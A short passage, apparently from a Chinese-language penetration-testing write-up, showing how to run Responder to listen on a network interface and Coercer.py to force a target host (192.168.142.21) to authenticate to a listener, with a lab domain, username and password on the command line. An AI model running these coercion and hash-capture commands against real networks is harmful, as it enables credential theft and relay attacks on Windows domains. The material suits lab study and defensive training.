 也可以用 responder 监听

```bash
responder --interface eth0
```

[![](assets/1708508972-c90e3df558f47a28a8a32b47f0ea92c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170859-aec48f22-cfcf-1.png)

发起请求

```bash
./Coercer.py coerce -l 192.168.21.101 -t 192.168.142.21 -u 'qxn' -p 'Penson@2016 永遠的神' -d penson.org -v
```

[![](assets/1708508972-302c7ad18b663d0e8ffdbb94485e5449.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170904-b1ab11e8-cfcf-1.png)
